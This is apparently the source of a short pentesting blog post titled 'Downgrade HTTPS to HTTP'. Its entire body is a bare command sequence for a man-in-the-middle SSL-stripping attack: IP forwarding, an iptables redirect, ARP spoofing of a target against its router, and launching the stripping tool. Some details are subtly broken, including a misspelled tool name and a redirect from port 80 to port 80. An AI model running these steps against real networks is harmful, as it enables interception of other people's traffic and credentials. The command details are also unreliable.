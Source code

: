 ```yaml
---
layout: post
title: Downgrade HTTPS to HTTP
categories: [Pentesting]
tags: [Kali, Linux]
description: 443 > 80
fullview: true
comments: true
---
```


{% highlight yaml %}
$ echo 1 > /proc/sys/net/ipv4/ip_forward
$ iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 80
$ arpspoof -i wlan0 -t IP_TARGET ROUTE_IP
$ ssltrip -l 80
{% endhighlight %}
